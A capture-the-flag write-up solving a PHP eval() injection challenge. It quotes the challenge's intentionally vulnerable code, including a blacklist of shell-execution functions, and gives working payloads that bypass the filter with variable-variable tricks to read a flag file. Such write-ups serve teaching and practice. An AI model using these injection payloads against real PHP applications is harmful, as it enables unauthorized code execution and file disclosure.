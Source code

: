 # Impasse

This is a PHP `eval()` injection challenge. 

When submitting the form, the input is wrapped around an `echo` statement and added to the `print` GET parameter:

```http
?print=echo+'<YOUR DATA>'+;
```

The first thing we tried was to modify the GET parameter to test for arbitrary code execution:

```
print=echo+'';phpinfo()
```

![](<../../.gitbook/assets/image (12).png>)

By checking the `debug` option, we are presented with the page's source code. The following code implements the input blacklist and the `eval()` vulnerability:

```php
<?php
error_reporting(0);
if (isset($_GET['print'])) {
  if (!empty($_GET['print'])){
    $printValue= strtolower($_GET['print']);
    $blocked = array("cat", "more" ,"readfile", "fopen", "file_get_contents", "file", "SplFileObject" );
    $special_block= "nc";
    $$special_block= "../flag.txt";
    foreach ($blocked as $value) {
      if (strpos($printValue, $value) || preg_match('/\bsystem|\bexec|\bbin2hex|\bassert|\bpassthru|\bshell_exec|\bescapeshellcmd| \bescapeshellarg|\bpcntl_exec|\busort|\bpopen|\bflag\.txt|\bspecial_block|\brequire|\bscandir|\binclude|\bhex2bin|\$[a-zA-Z]|[#!%^&*_+=\-,\.:`|<>?~\\\\]/i', $printValue)) {
        $printValue="";
        echo "<script>alert('Bad character/word ditected!');</script>";
        break;
      }
    }
  eval($printValue . ";");
  } 
}
?>
```

Many useful functions have been blocked! But note that the `eval()` statement is called _after_ the `$blocked`, `$special_block` and `$$special_block` variables are defined. This allows us to reference these variables in our `eval`-ed code.

Note that `$$` has a special meaning in PHP: [https://stackoverflow.com/questions/4169882/what-is-in-php](https://stackoverflow.com/questions/4169882/what-is-in-php)

```php
$foo = 'hello';
$hello = 'The Output';
echo $$foo; // displays "The Output"
```

What happens here is that the value of  `$foo` is used as a variable name, and so `$$foo` becomes `$hello` (think of it as replacing `$foo` in `$$foo`).

```php
$special_block= "nc";
$$special_block= "../flag.txt";
```

Here, the value of `$special_block` is used as a variable name. The second line defines a new variable, `$nc`, which has the value of `"../flag.txt"`.

Our final payload is

```
?print=echo+'';print(eval('return ${blocked}[4](${nc});'))
```

which leads to the following code being `eval`-ed:

```php
print(eval('return file_get_contents("../flag.txt");')
```

Note that `$[a-zA-Z]` is blocked in the regex, so we must use `${...}` instead (which achieves the same purpose). Also, `eval()` executes `file_get_contents("../flag.txt")` but doesn't display anything to us yet. By returning and printing the output, we retrieve the flag.
